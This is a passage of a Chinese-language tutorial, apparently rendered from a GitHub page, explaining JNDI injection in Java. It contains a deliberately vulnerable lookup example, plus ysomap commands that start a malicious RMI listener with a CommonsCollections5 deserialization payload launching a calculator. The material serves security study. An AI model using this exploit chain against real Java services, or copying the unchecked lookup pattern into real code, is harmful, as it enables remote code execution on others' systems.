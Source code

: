```java
}
```
1. InitialDirContext 用于设定访问 LDAP 服务的环境参数。
   - Context.INITIAL_CONTEXT_FACTORY 指定了使用 LDAP 上下文工厂 com.sun.jndi.ldap.LdapCtxFactory
   - Context.PROVIDER_URL 指定了 LDAP 服务器的地址为 ldap://localhost:8080
2. lookup 方法用于在目录服务中查找符合要求的条目。

# JNDI 注入原理
假如 lookup 参数可控，则可以通过指定的 ip 地址向恶意服务器发起连接。漏洞场景如下所示：
```java
public class JNDIDynamic {
    public static void main(String[] args) {
        if (args.length != 1) {
            System.out.println("Usage: lookup <domain>");
            return;
        }
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.dns.DnsContextFactory");
        env.put(Context.PROVIDER_URL, "dns://114.114.114.114");

        try {
            DirContext ctx = new InitialDirContext(env);
            DirContext lookCtx = (DirContext)ctx.lookup(args[0]);
            Attributes res = lookCtx.getAttributes("", new String[]{"A"});
            System.out.println(res);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```
上面的代码会根据用户的输入发起 JNDI 查询，攻击者可以利用 JNDI 支持的各种协议加以利用。


# JNDI RMI 利用
## RMI 反序列化
JNDI 在使用 RMI 作为 SPI 时，同样会受到 RMI 安全问题的影响。在测试代码中加入 CC 依赖：
```xml
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
```
注入 lookup 函数时，目标作为客户端向恶意注册中心发起连接，我们可以使用 ysomap 中的 JRMPListener 开启监听：
```bash
use exploit RMIListener
use payload CommonsCollections5
use bullet TransformerWithTemplatesImplBullet
set lport 12345
set args "mate-calc"
run
```
然后利用 JNDI 注入向 JRMPListener 发起连接：
```java
ctx.lookup("rmi://localhost:12345/Foo");
```
JRMPListener 攻击客户端不受 jdk 版本限制，但需要目标环境中存在可利用的反序列化链。
